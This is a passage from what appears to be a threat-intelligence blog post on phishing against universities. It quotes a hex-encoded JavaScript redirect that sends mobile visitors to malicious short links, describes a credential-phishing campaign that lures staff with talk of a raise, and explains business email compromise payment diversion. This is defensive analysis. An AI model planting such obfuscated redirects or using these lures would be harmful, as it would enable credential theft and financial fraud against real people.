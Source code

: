 The embedded JavaScript performs a “mobile check” and user-agent string verification and performed the following hex-encoded redirect:

```
if (window.mobileCheck()) { 	
window.location.href="\x68\x74\x74\x70\x3a\x2f\x2f\x63\x75\x74
\x6c\x79\x2e\x74\x6f\x64\x61\x79\x2f\x4a\x4e\x78\x30\x72\x37"; 		}
```

Figure 5: JavaScript Hex-encoded redirect

This JavaScript checks to determine if the user is on a mobile device. If they are, it redirects them to one of several possible follow-on URLs. These are two examples:

-   `hxxp://cutly[.]today/JNx0r7`
-   `hxxp://kutly[.]win/Nyq0r4`

Case Study 3: Two-Step Phishing Campaign Targeting Staff and Students
---------------------------------------------------------------------

Google’s Workspace Trust and Safety team also observed a two-step phishing campaign targeting staff and students. First, attackers send a phishing email to faculty and staff. The emails are designed to entice faculty and staff to provide their login credentials in order to view a document about a raise or bonus.

![Example of phishing email targeting faculty and staff](https://storage.googleapis.com/gweb-cloudblog-publish/images/phishing-higher-ed-fig6.max-1000x1000.png)

Figure 6: Example of phishing email targeting faculty and staff

Next, attackers use login credentials provided by faculty and staff to hijack their account and email phishing forms to students. These forms are designed to look like job applications, and phish for personal and financial information.

![Example of phishing form emailed to students](https://storage.googleapis.com/gweb-cloudblog-publish/images/phishing-higher-ed-fig7.max-1000x1000.png)

Figure 7: Example of phishing form emailed to students

Understanding Payment Redirection Attacks
-----------------------------------------

Payment redirection attacks via Business Email Compromise (BEC) are a sophisticated form of financial fraud. In these attacks, cyber threat actors gain unauthorized access to a business email account and exploit it to redirect payments meant for legitimate recipients into their own accounts. While these attacks often involve the diversion of large transfers, there have been instances where attackers divert small amounts (typically 5-10%) to lower the likelihood of detection. This outlier tactic allows them to steal funds gradually, making it more challenging to detect unauthorized transactions.

![Payment redirection attacks](https://storage.googleapis.com/gweb-cloudblog-publish/original_images/phishing-higher-ed-fig8.gif)

Figure 8: Payment redirection attacks

**Initial Compromise:** Attackers often begin by gaining access to a legitimate email account through phishing, social engineering, or exploiting vulnerabilities. A common phishing technique involves using online surveys or other similar platforms to create convincing but fraudulent login pages or forms. When unsuspecting employees enter their credentials, attackers capture them and gain unauthorized access.  
